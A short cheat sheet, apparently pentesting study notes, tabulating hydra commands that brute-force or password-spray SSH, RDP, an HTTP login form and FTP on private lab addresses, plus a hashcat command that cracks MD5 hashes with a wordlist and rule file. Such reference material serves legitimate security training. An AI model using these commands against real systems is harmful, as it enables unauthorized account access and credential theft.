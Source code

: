 
| **Brute force** | **Description** |
| ---- | ---- |
| `hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201` | SSH |
| `hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202` | RDP - Password spraying |
| `hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"` | HTTP Form |
| `hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -f ftp://192.168.213.61` | FTP |

| **Hash cracking** | **Description** |
| ---- | ---- |
| `hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt -r demo3.rule --force` | Hashcat with rule |
|  |  |

